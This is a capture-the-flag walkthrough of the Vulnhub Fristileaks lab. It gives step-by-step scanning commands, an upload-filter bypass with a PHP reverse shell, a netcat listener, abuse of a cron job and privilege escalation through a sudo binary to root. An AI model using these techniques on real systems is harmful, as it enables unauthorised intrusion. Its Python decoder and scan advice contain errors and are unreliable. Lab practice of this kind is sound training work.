 ```yaml
---
title: Fristileaks Walkthrough
author: alex
date: Fri 28 Jul 19:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-fristileaks-walkthrough/
---
```


Today I'm hacking into **Fristileaks**. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests.

> SETUP
> 
> The setup is a bit tricky. I am using **VirtualBox**, and in order to get an IP for the VM, I had to manually change the MAC address of the machine to 080027A5A676.
{: .prompt-tip }

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster
- Python/CyberChef

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.22.0/16   |   Screen View: Unique Hosts                                               
                                                                                                           
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                          
192.168.1.41    08:00:27:a5:a6:76      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.41
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT   STATE SERVICE VERSION

80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
```

Only **port 80** is open so let's open the browser and search the IP to see what we have.

![Fristileaks](/keep-calm.png)

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.41 -t 10`. And we can see 3 directories not listed but present in *robots.txt*: beer, cola and sis. I didn't find anything interesting here. After drinking another coffee I started trying some words and one of them threw an interesting result: /fristi/.

Here we have a login page! If we have a look to the source code of the page we can find some interesting things:

![User](/eezeepz.webp)
![Password](/base64img.webp)

I guess that **eezeepz** is a username and the second string is base64. As soon as we try to decode it with **CyberChef** we can see it's a .png image. So we need to decode it as an image. And that image has a text in it: **keKkeKKeKKeKkEkkEk**.

Cool! That looks like a password. And sure it is. We are now presented with a page to upload a file. If we try to upload a reverse shell written in PHP with .php extension it gets rejected. Let's add .png to the extension: **reverse_shell.php.png**.

## Exploitation

Before we visit the url of our reverse shell, we must start a **Netcat** listener:

```bash
sudo nc -nlvp 1234
```

Now we can visit the url (IP + /uploads/reverse_shell.php.png) to start the shell and get inside **fristi**.

First, let's spawn an interactive shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Good, let's start sniffing around the folders.

There's an interesting file: **/home/eezpeez/notes.txt**. If we `cat` it, we can see some instructions to run some commands as admins so we can change permissions for the *admin* directory:

```bash
echo '/home/admin/chmod -R 777 /home/admin' > /tmp/runthis
```

Now, after a minute, once the cronjob is executed we can `cd` into the *admin* directory. And here we can find some interesting files: 

- cryptpass.py
- whoisyourgodnow.txt
- cryptedpass.txt

We can see two passwords encrypted in the files **whoisyourgodnow.txt** and **cryptedpass.txt**. They have been encrypted with the file **cryptpass.py** so we have to reverse the encryption algorithm in order to revert it and reveal the password.

### Way #1 - CyberChef

If you are not good at Python or don't know how to write programs with it, you can use CyberChef for this task but you'll still need to understand some Python to know how the password is encrypted.

```python
     def encodeString(str):
1 >    base64string= base64.b64encode(str)
2 >    return codecs.encode(base64string[::1], 'rot13')
```

1. This line encodes the string in base64 as a first step so it will be our last step
2. This line rotates the characters 13 positions and reverse the string

So, inside CyberChef we need to load **Reverse**, **ROT13** and **From Base64**, paste the string and voilà! we have the password.

![CyberChef](/cyberchef.png)

### Way #2 - Python

If you are good with Python, you can code the reverse algorithm. Here's the program and how to use it:

```python
import base64,codecs,sys

string = "=RFn0AKnlMHMPIzpyuTI0ITG"

string1 = string[::-1]
string2 = string1.encode("rot13")
string3 = base64.b64decode(string2)

print string3
```

To use it: 

```bash
sudo python3 decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
```

Now we can change user:

```bash
su fristigod
Password: LetThereBeFristi!
```

Let's see what powers do we have: `sudo -l`

```
User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Cool! We can execute the doCom SUID with sudo privileges:

```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```

Now we can check we are root:

```
$ whoami
root
$ cd root
$ cat fristileaks_secrets.txt
```

And we get the flag as proof of our victory:

```
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```


